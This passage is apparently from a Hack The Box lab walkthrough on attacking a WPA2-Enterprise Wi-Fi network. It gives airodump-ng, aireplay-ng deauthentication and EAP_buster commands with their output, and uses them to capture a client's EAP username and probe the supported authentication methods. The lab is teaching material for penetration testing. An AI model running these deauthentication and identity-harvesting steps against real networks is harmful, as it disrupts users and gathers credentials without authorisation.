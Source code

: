 ```shell
airodump-ng wlan0mon -c 1 -w WPA

 CH  1 ][ Elapsed: 6 s ][ 2024-08-23 09:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  16:C5:68:79:A8:12  -29   12 -54      0        4

```

From the output above, we can see that the `HTB-Corp` Wi-Fi network is available with the BSSID `9C:9A:03:39:BD:7A`, and has a client connected to it with the MAC address `16:C5:68:79:A8:12`. Let's proceed with the downgrade attack to determine if we can obtain clear text credentials from this client.

If PMK caching is disabled on the access point (AP), we can perform a deauthentication attack on the client using `aireplay-ng` to capture a valid WPA handshake, which includes EAP packets. This allows us to identify the username.

```shell
aireplay-ng -0 3 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon

19:32:04  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
19:32:05  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
19:32:05  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
19:32:06  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]

```

When analyzing the captured .cap file in Wireshark, apply the `eap` filter. Navigate to the `"Response, Identity"` packet, and we will find the username.

![image](m42Aqoj9KNXD.png)

As shown in the output above, we have identified the username `HTB\Sentinal`. We can now utilize `EAP-Buster` to determine if the RADIUS server supports other authentication methods for this user.

```shell
/opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Sentinal' wlan0mon

EAP_buster by BlackArrow [https://github.com/blackarrowsec/EAP_buster]

WARNING
You need to use legitimate EAP identities in order to start the 802.1X authentication process and get reliable results (EAP identites can be collected using sniffing tools such as crEAP, just make sure you use a real identity and not an anonymous one => https://github.com/Snizz/crEAP)

supported      =>  EAP-TLS
